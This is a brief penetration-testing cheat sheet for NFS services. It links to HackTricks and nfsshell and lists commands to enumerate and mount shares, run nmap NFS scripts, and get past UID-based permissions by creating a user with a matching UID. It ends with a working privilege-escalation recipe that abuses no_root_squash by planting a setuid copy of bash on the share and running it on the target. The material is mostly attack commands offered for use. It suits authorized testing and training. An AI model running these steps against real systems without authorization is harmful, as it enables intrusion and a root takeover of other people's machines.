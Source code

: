 https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting

[nfsshell](https://infra.newerasec.com/infrastructure-testing/tools/nfsshell)

List available shares:
```bash
showmount -e <IP>
```

Mount NFS share:
```bash
mkdir /mnt/new_back
mount -t nfs [-o vers=2] <IP>:/<SHARE> /mnt/new_back -o nolock
```

Nmap:
```bash
nmap --script=nfs* -p2049 <IP>
```

Bypass UID permissions:
- Create local user with required UID to access file/folder
```bash
adduser peter --uid <UID> --gid <GID>
mount -t nfs <IP>:/<SHARE> /home/newuser/mount
```


### Privilege Escalation

Privilege escalation using no_root_squash:
```bash
# In Kali (as root)
sudo su
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

# On Target
cd <SHARED_FOLDER>
./bash -p
```
